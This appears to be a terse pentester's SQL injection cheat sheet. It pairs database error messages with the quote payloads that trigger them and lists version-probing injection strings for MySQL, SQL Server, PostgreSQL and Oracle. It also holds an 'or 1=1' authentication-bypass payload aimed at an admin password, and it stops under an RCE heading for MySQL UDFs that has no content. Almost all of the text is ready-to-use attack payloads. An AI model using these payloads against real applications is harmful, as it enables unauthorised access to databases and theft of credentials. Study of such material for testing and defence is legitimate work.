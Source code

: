 # ***Test/LHF***

| DBMS                 | Example Error Message                                                                     | Example Payload |
| -------------------- | ----------------------------------------------------------------------------------------- | --------------- |
| MySQL                | `You have an error in your SQL syntax; ... near '' at line 1`                             | `'`             |
| PostgreSQL           | `ERROR: unterminated quoted string at or near "'"`                                        | `'`             |
| PostgreSQL           | `ERROR: syntax error at or near "1"`                                                      | `1'`            |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.`                                  | `'`             |
| Microsoft SQL Server | `Incorrect syntax near ''.`                                                               | `'`             |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'`            |
| Oracle               | `ORA-00933: SQL command not properly ended`                                               | `'`             |
| Oracle               | `ORA-01756: quoted string not properly terminated`                                        | `'`             |
| Oracle               | `ORA-00923: FROM keyword not found where expected`                                        | `1'`            |
## version test to confirm
```
#####
# M #
#####
' OR 1 in (select @@version) --//
```

```
#####
# S #
#####
' OR 1=cast(@@version as int) --//
' OR 1 in (SELECT cast(@@version as int)) --//
' OR 1 in (SELECT convert(int, @@version)) --//
```

```
#####
# P #
#####
' OR 1 in (select version()) --//
```

```
#####
# O #
#####
' || (SELECT version FROM v$instance WHERE rownum=1)--
' || (SELECT 1/0 FROM v$version WHERE rownum=1) --
' || (SELECT DBMS_UTILITY.DB_VERSION FROM dual)--
```
## Auth bypass
```
######
# My #
######
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') --//
```
## RCE
```
############
# My (UDF) #
```